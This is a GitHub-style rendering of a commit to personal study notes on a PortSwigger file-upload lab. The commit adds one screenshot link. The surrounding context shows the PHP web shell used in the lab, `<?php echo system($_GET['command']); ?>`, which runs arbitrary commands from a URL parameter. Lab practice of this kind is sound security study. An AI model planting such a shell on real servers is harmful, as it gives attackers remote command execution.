

Before and after one commit to Paius-George/obsidian, a Markdown page: Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md, the part around the change. Drawn GitHub-style; pictures changed too: attachments/Pasted image 20261019133426.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-10-19 13:35:27

```diff
--- a/Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md
+++ b/Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md
@@ -14,3 +14,4 @@ Am folosit `<?php echo system($_GET['command']); ?>`
 
 ![](../../attachments/Pasted%20image%2020261019133303.png)
 ![](../../attachments/Pasted%20image%2020261019133331.png)
+![](../../attachments/Pasted%20image%2020261019133426.png)
```
